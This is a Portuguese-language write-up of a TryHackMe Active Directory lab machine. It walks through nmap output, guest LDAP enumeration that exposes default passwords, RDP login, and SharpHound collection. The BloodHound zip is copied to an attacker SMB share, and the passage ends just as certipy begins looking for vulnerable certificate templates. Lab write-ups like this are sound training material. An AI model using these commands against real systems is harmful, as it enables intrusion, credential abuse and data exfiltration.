

> [!Informações]
> - O IP da máquina foi adicionado ao `/etc/hosts` com a URL `http://ledger.thm/`
> - Período: 15/05/2025 á 16/05/2025
> - Máquina do `TryHackMe` de Nível Difícil
> - Sistema Operacional: Windows
> - O IP da máquina pode ir alterar ao decorrer das capturas de tela, mas o foco fica sendo os `hosts`

# Sumário
1. [[#Enumeração]]
	1. [[#Navegando pela aplicação]]
	2. [[#NMAP]]
	3. [[#NetExec]]
	4. [[#SMB]]
2. [[#Exploração]]
	1. [[#Acesso via RDP]]
		1. [[#BloodHound]]
			1. [[#Execução]]
			2. [[#Exfiltrando o `.zip`]]
			3. [[#Analisando o AD]]
		2. [[#`whoami /all`]]
3. [[#Escalação de Privilégios]]
	1. [[#Abusando de certificados com `certi`]]
		1. [[#Template vulnerável]]
		2. [[#Passo a Passo da Escalação]]
------------
# Enumeração
## Navegando pela aplicação

> Acessando a aplicação


## NMAP

```
PORT      STATE  SERVICE       REASON          VERSION
53/tcp    open   domain        syn-ack ttl 125 Simple DNS Plus
80/tcp    open   http          syn-ack ttl 125 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open   kerberos-sec  syn-ack ttl 125 Microsoft Windows Kerberos (server time: 2025-05-15 18:59:41Z)
135/tcp   open   msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open   netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
389/tcp   open   ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=labyrinth.thm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:labyrinth.thm.local
| Issuer: commonName=thm-LABYRINTH-CA/domainComponent=thm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-05-15T18:37:13
| Not valid after:  2026-05-15T18:37:13
| MD5:   d559:8308:668c:b83e:11d5:36e9:6409:83d7
| SHA-1: 22dd:b57f:0cd7:86c4:e74a:7cdf:5d7e:ca3f:2524:2795
| -----BEGIN CERTIFICATE-----
| MIIGNjCCBR6gAwIBAgITSwAAABeArddamLvmJAAAAAAAFzANBgkqhkiG9w0BAQsF
| ADBHMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxEzARBgoJkiaJk/IsZAEZFgN0aG0x
| GTAXBgNVBAMTEHRobS1MQUJZUklOVEgtQ0EwHhcNMjUwNTE1MTgzNzEzWhcNMjYw
| NTE1MTgzNzEzWjAeMRwwGgYDVQQDExNsYWJ5cmludGgudGhtLmxvY2FsMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0kdA3nZZi4aEzPnrJPIcVfPi5+nY
| 4+x0plYgyFBmEd2nAqtaAoETkCXexw7XEJTbj8BooD/zNuwrENpQ01oaE+uHG37K
| zuiAT4COkZfgzuw8NiMowdKLhYThjRhlmZBJPhF4IkXTS1qTscZFvglNAUkz9RvH
| vEi1NyvX6hnTvSPYerofT1Bo5p8O0zMgdGomxtyLuIlNll8JI0b34VtiAr3bqfVk
| I3AyzoGWpItCwZ7994LcPOUjcSUxf2L3wv8hOejBXB6MqWVJuhztTsMLuawr8E5I
| fDyJQI2S4YwsYLJcFG9st21APV5fSQfR73INQ12u71pBW/HQSslUyR6YsQIDAQAB
| o4IDQjCCAz4wLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIA
| bwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8B
| Af8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZI
| hvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAEC
| MAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzBNBgkrBgEEAYI3GQIE
| QDA+oDwGCisGAQQBgjcZAgGgLgQsUy0xLTUtMjEtMTk2NjUzMDYwMS0zMTg1NTEw
| NzEyLTEwNjA0NjI0LTEwMDgwPwYDVR0RBDgwNqAfBgkrBgEEAYI3GQGgEgQQ9dll
| U56lrkCUSLMDcgYRfIITbGFieXJpbnRoLnRobS5sb2NhbDAdBgNVHQ4EFgQUfble
| YPuHlE6UO4t5gY/KPm1pd4IwHwYDVR0jBBgwFoAUCXC348VycpOwcQwjQqSW/b4C
| HRMwgc4GA1UdHwSBxjCBwzCBwKCBvaCBuoaBt2xkYXA6Ly8vQ049dGhtLUxBQllS
| SU5USC1DQSxDTj1sYWJ5cmludGgsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9dGhtLERDPWxv
| Y2FsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1j
| UkxEaXN0cmlidXRpb25Qb2ludDCBwAYIKwYBBQUHAQEEgbMwgbAwga0GCCsGAQUF
| BzAChoGgbGRhcDovLy9DTj10aG0tTEFCWVJJTlRILUNBLENOPUFJQSxDTj1QdWJs
| aWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9u
| LERDPXRobSxEQz1sb2NhbD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9
| Y2VydGlmaWNhdGlvbkF1dGhvcml0eTANBgkqhkiG9w0BAQsFAAOCAQEAflAeyfst
| b0LQ6te9keAwm6Go6B7eh0y4vd7bm2QcFNxQjDRpu7FJ5B+YbnBJjUFW5y5uu8AE
| 5Me5ksAQ9iw03IJ+sslBDzmTBRP827vTRFogy+l2htzY1zgoTjcWALqxSTAuuQrq
| /omZ9G3zp2CwBfffAjBQn1evqtp5ls5HXICX1F0o+0fPn0+RPraZZW16y9My5L8J
| Pq/jpBJTO3D/EI9f38uQC/h1QaLML3Pm6WekR3tTWTdDbcROlI+hA4mRlm+5zsQy
| Ab1A/Tle/Om99Kph94mk6xkLX69DvUyhdt/K6JkA2YZ0fK6mV5GHS755WxSBuX9A
| t9YLZH9yjVmSDA==
|_-----END CERTIFICATE-----
443/tcp   open   ssl/http      syn-ack ttl 125 Microsoft IIS httpd 10.0
| ssl-cert: Subject: commonName=thm-LABYRINTH-CA/domainComponent=thm
| Issuer: commonName=thm-LABYRINTH-CA/domainComponent=thm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-05-12T07:26:00
| Not valid after:  2028-05-12T07:35:59
| MD5:   c249:3bc6:fd31:f2aa:83cb:2774:bc66:9151
| SHA-1: 397a:54df:c1ff:f9fd:57e4:a944:00e8:cfdb:6e3a:972b
| -----BEGIN CERTIFICATE-----
| MIIDaTCCAlGgAwIBAgIQUiXALddQ7bNA6YS8dfCQKTANBgkqhkiG9w0BAQsFADBH
| MRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxEzARBgoJkiaJk/IsZAEZFgN0aG0xGTAX
| BgNVBAMTEHRobS1MQUJZUklOVEgtQ0EwHhcNMjMwNTEyMDcyNjAwWhcNMjgwNTEy
| MDczNTU5WjBHMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxEzARBgoJkiaJk/IsZAEZ
| FgN0aG0xGTAXBgNVBAMTEHRobS1MQUJZUklOVEgtQ0EwggEiMA0GCSqGSIb3DQEB
| AQUAA4IBDwAwggEKAoIBAQC/NNh6IN5jNgejLjqq9/RVDR42kxE0UZvnW6cB1LNb
| 0c4GyNmA1h+oLDpz1DonC3Yhp9XPQJIj4ejN1ErCQFMAxW4Xcd/Gt/LSCjdBHgmR
| R8wItUOpOoXkQtVRUE4I7vlWzxBuCVo644NaNzbfqVj7M1/nCBjn/PPd2fX3etSX
| EsaI6bYcdmKRimC/94UP8qTs6Z+KGasXUmb7Sj8vscncY8lFLe9qREuiRrom5Q8A
| NySO4t8mtmqIHrBb8zTTZ9N/HxEOPDafCSTOjRhDVsOXVuWllTJujjSu+jJlBiF/
| aiXM7mOmsxH1rqCUK9mhZFSf/OhvgsvAq66sTBs1huE1AgMBAAGjUTBPMAsGA1Ud
| DwQEAwIBhjAPBgNVHRMBAf8EBTADAQH/MB0GA1UdDgQWBBQJcLfjxXJyk7BxDCNC
| pJb9vgIdEzAQBgkrBgEEAYI3FQEEAwIBADANBgkqhkiG9w0BAQsFAAOCAQEAmnUK
| Wj9AoBc2fuoVml4Orlg+ce7x+1IBTpqeKaobBx/ez+i5mV2U45MgPHPwjHzf15bn
| 0BnYpJUhlEljx7+voM+pfP/9Q21v5iXjgIcH9FLau2nqhcQOnttNj8I4aoDr5rRG
| fJJv+hAuNXxr/Fy5M7oghCpNqxseEU9OcgIPRHp6X/8bTtEYWaHnD3GS6uUR2jai
| PhReAcCPTbRwMRA3KsGRaBF3+PsIOL0JtCR+QGfOugPhUJFOU7w0dwbFmzfRcgKw
| bJhEy3o0FL5aqKVC823QJE7LosyLdtAqtZY7OgtT0Do7RZzdsZ1If0JmYmHTSRVz
| 8CvPpcCDp68aiTtqgA==
|_-----END CERTIFICATE-----
445/tcp   open   microsoft-ds? syn-ack ttl 125
464/tcp   open   kpasswd5?     syn-ack ttl 125
593/tcp   open   ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
636/tcp   open   ssl/ldap      syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
3268/tcp  open   ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=labyrinth.thm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:labyrinth.thm.local
| Issuer: commonName=thm-LABYRINTH-CA/domainComponent=thm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-05-15T18:37:13
| Not valid after:  2026-05-15T18:37:13
| MD5:   d559:8308:668c:b83e:11d5:36e9:6409:83d7
| SHA-1: 22dd:b57f:0cd7:86c4:e74a:7cdf:5d7e:ca3f:2524:2795
| -----BEGIN CERTIFICATE-----
| MIIGNjCCBR6gAwIBAgITSwAAABeArddamLvmJAAAAAAAFzANBgkqhkiG9w0BAQsF
| ADBHMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxEzARBgoJkiaJk/IsZAEZFgN0aG0x
| GTAXBgNVBAMTEHRobS1MQUJZUklOVEgtQ0EwHhcNMjUwNTE1MTgzNzEzWhcNMjYw
| NTE1MTgzNzEzWjAeMRwwGgYDVQQDExNsYWJ5cmludGgudGhtLmxvY2FsMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0kdA3nZZi4aEzPnrJPIcVfPi5+nY
| 4+x0plYgyFBmEd2nAqtaAoETkCXexw7XEJTbj8BooD/zNuwrENpQ01oaE+uHG37K
| zuiAT4COkZfgzuw8NiMowdKLhYThjRhlmZBJPhF4IkXTS1qTscZFvglNAUkz9RvH
| vEi1NyvX6hnTvSPYerofT1Bo5p8O0zMgdGomxtyLuIlNll8JI0b34VtiAr3bqfVk
| I3AyzoGWpItCwZ7994LcPOUjcSUxf2L3wv8hOejBXB6MqWVJuhztTsMLuawr8E5I
| fDyJQI2S4YwsYLJcFG9st21APV5fSQfR73INQ12u71pBW/HQSslUyR6YsQIDAQAB
| o4IDQjCCAz4wLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIA
| bwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8B
| Af8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZI
| hvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAEC
| MAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzBNBgkrBgEEAYI3GQIE
| QDA+oDwGCisGAQQBgjcZAgGgLgQsUy0xLTUtMjEtMTk2NjUzMDYwMS0zMTg1NTEw
| NzEyLTEwNjA0NjI0LTEwMDgwPwYDVR0RBDgwNqAfBgkrBgEEAYI3GQGgEgQQ9dll
| U56lrkCUSLMDcgYRfIITbGFieXJpbnRoLnRobS5sb2NhbDAdBgNVHQ4EFgQUfble
| YPuHlE6UO4t5gY/KPm1pd4IwHwYDVR0jBBgwFoAUCXC348VycpOwcQwjQqSW/b4C
| HRMwgc4GA1UdHwSBxjCBwzCBwKCBvaCBuoaBt2xkYXA6Ly8vQ049dGhtLUxBQllS
| SU5USC1DQSxDTj1sYWJ5cmludGgsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9dGhtLERDPWxv
| Y2FsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1j
| UkxEaXN0cmlidXRpb25Qb2ludDCBwAYIKwYBBQUHAQEEgbMwgbAwga0GCCsGAQUF
| BzAChoGgbGRhcDovLy9DTj10aG0tTEFCWVJJTlRILUNBLENOPUFJQSxDTj1QdWJs
| aWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9u
| LERDPXRobSxEQz1sb2NhbD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9
| Y2VydGlmaWNhdGlvbkF1dGhvcml0eTANBgkqhkiG9w0BAQsFAAOCAQEAflAeyfst
| b0LQ6te9keAwm6Go6B7eh0y4vd7bm2QcFNxQjDRpu7FJ5B+YbnBJjUFW5y5uu8AE
| 5Me5ksAQ9iw03IJ+sslBDzmTBRP827vTRFogy+l2htzY1zgoTjcWALqxSTAuuQrq
| /omZ9G3zp2CwBfffAjBQn1evqtp5ls5HXICX1F0o+0fPn0+RPraZZW16y9My5L8J
| Pq/jpBJTO3D/EI9f38uQC/h1QaLML3Pm6WekR3tTWTdDbcROlI+hA4mRlm+5zsQy
| Ab1A/Tle/Om99Kph94mk6xkLX69DvUyhdt/K6JkA2YZ0fK6mV5GHS755WxSBuX9A
| t9YLZH9yjVmSDA==
|_-----END CERTIFICATE-----
3269/tcp  open   ssl/ldap      syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=labyrinth.thm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:labyrinth.thm.local
| Issuer: commonName=thm-LABYRINTH-CA/domainComponent=thm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-05-15T18:37:13
| Not valid after:  2026-05-15T18:37:13
| MD5:   d559:8308:668c:b83e:11d5:36e9:6409:83d7
| SHA-1: 22dd:b57f:0cd7:86c4:e74a:7cdf:5d7e:ca3f:2524:2795
| -----BEGIN CERTIFICATE-----
| MIIGNjCCBR6gAwIBAgITSwAAABeArddamLvmJAAAAAAAFzANBgkqhkiG9w0BAQsF
| ADBHMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxEzARBgoJkiaJk/IsZAEZFgN0aG0x
| GTAXBgNVBAMTEHRobS1MQUJZUklOVEgtQ0EwHhcNMjUwNTE1MTgzNzEzWhcNMjYw
| NTE1MTgzNzEzWjAeMRwwGgYDVQQDExNsYWJ5cmludGgudGhtLmxvY2FsMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0kdA3nZZi4aEzPnrJPIcVfPi5+nY
| 4+x0plYgyFBmEd2nAqtaAoETkCXexw7XEJTbj8BooD/zNuwrENpQ01oaE+uHG37K
| zuiAT4COkZfgzuw8NiMowdKLhYThjRhlmZBJPhF4IkXTS1qTscZFvglNAUkz9RvH
| vEi1NyvX6hnTvSPYerofT1Bo5p8O0zMgdGomxtyLuIlNll8JI0b34VtiAr3bqfVk
| I3AyzoGWpItCwZ7994LcPOUjcSUxf2L3wv8hOejBXB6MqWVJuhztTsMLuawr8E5I
| fDyJQI2S4YwsYLJcFG9st21APV5fSQfR73INQ12u71pBW/HQSslUyR6YsQIDAQAB
| o4IDQjCCAz4wLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIA
| bwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8B
| Af8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZI
| hvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAEC
| MAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzBNBgkrBgEEAYI3GQIE
| QDA+oDwGCisGAQQBgjcZAgGgLgQsUy0xLTUtMjEtMTk2NjUzMDYwMS0zMTg1NTEw
| NzEyLTEwNjA0NjI0LTEwMDgwPwYDVR0RBDgwNqAfBgkrBgEEAYI3GQGgEgQQ9dll
| U56lrkCUSLMDcgYRfIITbGFieXJpbnRoLnRobS5sb2NhbDAdBgNVHQ4EFgQUfble
| YPuHlE6UO4t5gY/KPm1pd4IwHwYDVR0jBBgwFoAUCXC348VycpOwcQwjQqSW/b4C
| HRMwgc4GA1UdHwSBxjCBwzCBwKCBvaCBuoaBt2xkYXA6Ly8vQ049dGhtLUxBQllS
| SU5USC1DQSxDTj1sYWJ5cmludGgsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9dGhtLERDPWxv
| Y2FsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1j
| UkxEaXN0cmlidXRpb25Qb2ludDCBwAYIKwYBBQUHAQEEgbMwgbAwga0GCCsGAQUF
| BzAChoGgbGRhcDovLy9DTj10aG0tTEFCWVJJTlRILUNBLENOPUFJQSxDTj1QdWJs
| aWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9u
| LERDPXRobSxEQz1sb2NhbD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9
| Y2VydGlmaWNhdGlvbkF1dGhvcml0eTANBgkqhkiG9w0BAQsFAAOCAQEAflAeyfst
| b0LQ6te9keAwm6Go6B7eh0y4vd7bm2QcFNxQjDRpu7FJ5B+YbnBJjUFW5y5uu8AE
| 5Me5ksAQ9iw03IJ+sslBDzmTBRP827vTRFogy+l2htzY1zgoTjcWALqxSTAuuQrq
| /omZ9G3zp2CwBfffAjBQn1evqtp5ls5HXICX1F0o+0fPn0+RPraZZW16y9My5L8J
| Pq/jpBJTO3D/EI9f38uQC/h1QaLML3Pm6WekR3tTWTdDbcROlI+hA4mRlm+5zsQy
| Ab1A/Tle/Om99Kph94mk6xkLX69DvUyhdt/K6JkA2YZ0fK6mV5GHS755WxSBuX9A
| t9YLZH9yjVmSDA==
|_-----END CERTIFICATE-----
3389/tcp  open   ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| ssl-cert: Subject: commonName=labyrinth.thm.local
| Issuer: commonName=labyrinth.thm.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-05-14T18:46:11
| Not valid after:  2025-11-13T18:46:11
| MD5:   14db:e0bf:0566:405a:a9c3:b390:ee2e:73f3
| SHA-1: 6132:89e7:1a9a:a006:5304:d78c:40c9:c5ac:8458:1973
| -----BEGIN CERTIFICATE-----
| MIIC6jCCAdKgAwIBAgIQFYe+2Pk/4odBDhkyKVi+YDANBgkqhkiG9w0BAQsFADAe
| MRwwGgYDVQQDExNsYWJ5cmludGgudGhtLmxvY2FsMB4XDTI1MDUxNDE4NDYxMVoX
| DTI1MTExMzE4NDYxMVowHjEcMBoGA1UEAxMTbGFieXJpbnRoLnRobS5sb2NhbDCC
| ASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAOhaNq0DniJsByW+KAbBlb74
| nDxAbuEUPzDeIBXgqY9YY4DJq+rCDc5GowWOQO9czNVvlTnirASfnITdrM4/WBS+
| Y6GiPkHzm26im+zFFKiJvwitzdMtoS72TDqMyJASai2ByNcHA654h8tbpok7N5v0
| dwASh2MwDPeVEwoV+pMzwcgLuJ4E9fTIYviUn75gs4l+PUS5OekaPFvg/ysYuP01
| sFjxri4oujlBlvCVYUzEQtzBWPT+W8qsgJ6F2xaG1TNm5Aqk1Uyvx7H1KqKy48zt
| yI8c2S1KvUhyF9RS9/ZhGpHLRv5F6HJ/Yt7x/YrRd43lBsOV+YnoI6TNqrP7qpkC
| AwEAAaMkMCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqG
| SIb3DQEBCwUAA4IBAQDKZIQ+wyrFr3a9Opv2+2pNvmCPHP6fxzddr8kuMm/pDRks
| ekz9dcQ2TW0QRCvOFj18aV7eU1urJA3FgaUrBzuDWfcTHUq0ZXN2PNkizYI90hqW
| t134G9vynPYixLzvg36d10Arqyo+T2S6XltvVy/kfCgCpSFQ/lux4kmyyhXNJzhC
| OOfbXdd5DQddBDjb4CP0UAlFA0f8ldn1ibWitmCMNvsdJCXmi0aOdph9xpX2hyuC
| WMRDMH1FZRhJ05nOJHXo6DQzs375hVTPsxCqbBks/cJnhPKvM20c2Dsu4ghcfz3s
| HcTQjXJE+MYf10JE1ZeZcFEcuXvoXCPZ0agZN3kN
|_-----END CERTIFICATE-----
6606/tcp  closed unknown       reset ttl 125
9389/tcp  open   mc-nmf        syn-ack ttl 125 .NET Message Framing
14851/tcp closed unknown       reset ttl 125
18448/tcp closed unknown       reset ttl 125
21294/tcp closed unknown       reset ttl 125
22444/tcp closed unknown       reset ttl 125
28985/tcp closed unknown       reset ttl 125
31051/tcp closed unknown       reset ttl 125
33288/tcp closed unknown       reset ttl 125
37616/tcp closed unknown       reset ttl 125
40203/tcp closed unknown       reset ttl 125
42301/tcp closed unknown       reset ttl 125
44549/tcp closed unknown       reset ttl 125
47001/tcp open   http          syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
49664/tcp open   msrpc         syn-ack ttl 125 Microsoft Windows RPC
49665/tcp open   msrpc         syn-ack ttl 125 Microsoft Windows RPC
49666/tcp open   msrpc         syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open   msrpc         syn-ack ttl 125 Microsoft Windows RPC
49671/tcp open   msrpc         syn-ack ttl 125 Microsoft Windows RPC
49678/tcp open   msrpc         syn-ack ttl 125 Microsoft Windows RPC
49683/tcp open   ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
49684/tcp open   msrpc         syn-ack ttl 125 Microsoft Windows RPC
49687/tcp open   msrpc         syn-ack ttl 125 Microsoft Windows RPC
49693/tcp open   msrpc         syn-ack ttl 125 Microsoft Windows RPC
49717/tcp open   msrpc         syn-ack ttl 125 Microsoft Windows RPC
49720/tcp open   msrpc         syn-ack ttl 125 Microsoft Windows RPC
49724/tcp open   msrpc         syn-ack ttl 125 Microsoft Windows RPC
49816/tcp open   msrpc         syn-ack ttl 125 Microsoft Windows RPC
55489/tcp closed unknown       reset ttl 125
59641/tcp closed unknown       reset ttl 125
62944/tcp closed unknown       reset ttl 125
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=5/15%OT=53%CT=6606%CU=43260%PV=Y%DS=4%DC=I%G=Y%TM=6
OS:8263A8A%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=105%TI=I%CI=I%II=I%SS
OS:=S%TS=U)OPS(O1=M509NW8NNS%O2=M509NW8NNS%O3=M509NW8%O4=M509NW8NNS%O5=M509
OS:NW8NNS%O6=M509NNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)EC
OS:N(R=Y%DF=Y%T=80%W=FFFF%O=M509NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80
OS:%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=
OS:)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%
OS:A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%
OS:DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=
OS:80%CD=Z)

Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: LABYRINTH; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 24407/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 58326/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 28746/udp): CLEAN (Timeout)
|   Check 4 (port 21064/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-05-15T19:00:55
|_  start_date: N/A

```

## NetExec

Usando o netexec tem 3 usuários que é sempre bom tentar:
- `'guest'`
- `'anonymous'`
- `''`

`netexec smb labyrinth.thm.local -u 'guest' -p ''`


`netexec ldap labyrinth.thm.local -u 'guest' -p '' --users`

```
LDAP        10.10.226.45    389    LABYRINTH        IVY_WILLIS                    2023-05-30 09:30:55 0        Please change it: CHANGEME2023!

LDAP        10.10.226.45    389    LABYRINTH        SUSANNA_MCKNIGHT              2023-07-05 12:11:32 0        Please change it: CHANGEME2023!
```

Retornou vários usuários, mas apenas esses 2 tem uma descrição interessante.

## SMB


`smbclient //10.10.226.45/SYSVOL -U THM.LOCAL/SUSANNA_MCKNIGHT`

Ambas as contas possuem as mesmas permissões nos compartilhamentos de diretórios. Ao analisar os três diretórios disponíveis, não encontrei nenhuma informação relevante.

---

# Exploração
## Acesso via RDP

Após algumas tentativas de autenticação, foi feito uma tentativa via RDP (Com o Remima) e houve o sucesso na autenticação. O usuário em questão que foi usada foi a `SUSANNA_KNIGHT` onde também eu ==havia encontrado a FLAG DO USUÁRIO==

> [!Caso prefira fazer um teste usando o netexec]
> `netexec rdp labyrinth.thm.local -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!'`


### BloodHound
#### Execução

Chegou o momento de analisar toda a estrutura do Active Directory. Inicialmente, tentei executar o `bloodhound.py`, mas não obtive sucesso. Diante disso, optei pelo método tradicional: enviei o binário do `SharpHound.exe` e realizei a execução diretamente na máquina alvo.


#### Exfiltrando o `.zip`

Primeiro criamos um servidor SMB para poder receber o arquivo da vítima


Agora é apenas enviar da vítima -> Atacante
`copy C:\Users\SUSANNA_MCKNIGHT\20250516125849_BloodHound.zip \\10.13.72.32/loot\`


#### Analisando o AD





A informação mais relevante é que o usuário pertence ao grupo `REMOTE DESKTOP USERS`, embora isso já tivesse sido identificado anteriormente.

### `whoami /all`

A única saída é voltarmos para o básico.
Executando o comando `whoami /all` começamos ver algumas informações que de certo modo se tornam valiosas.


Com esses grupos que a conta está, destaca-se, um `Certificate Service DCOM Access`

----

# Escalação de Privilégios
## Abusando de certificados com `certi`

`certipy find -u SUSANNA_MCKNIGHT -p 'CHANGEME2023!' -dc-ip 10.10.116.93 -stdout -vulnerable`

```
[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 14 enabled certificate templates
[*] Finding issuance policies
[*] Found 21 issuance policies
[*] Found 0 OIDs linked to templates
